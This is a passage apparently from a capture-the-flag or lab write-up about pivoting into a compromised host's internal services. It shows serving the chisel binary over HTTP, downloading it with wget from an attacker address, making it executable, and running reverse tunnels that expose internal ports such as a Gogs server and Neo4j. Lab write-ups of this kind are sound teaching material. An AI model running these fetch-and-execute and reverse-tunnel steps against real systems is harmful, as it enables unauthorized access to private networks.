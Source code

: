 We now have access to ports 3000, 8001, 7687, and 7474.



cp /opt/my-resources/chisel/linux_amd64/chisel_linux_amd64 .
python3 -m http.server 80

chisel server -p 8080 --socks5 --reverse


cd /tmp
wget http://10.10.14.10/chisel_linux_amd64 -O chisel
chmod +x ./chisel
./chisel client 10.10.14.10:8080 R:3000:localhost:3000 R:8001:localhost:8001 R:7687:localhost:7687 R:7474:localhost:7474

http://localhost:3000/

![](assets/gogs.png)
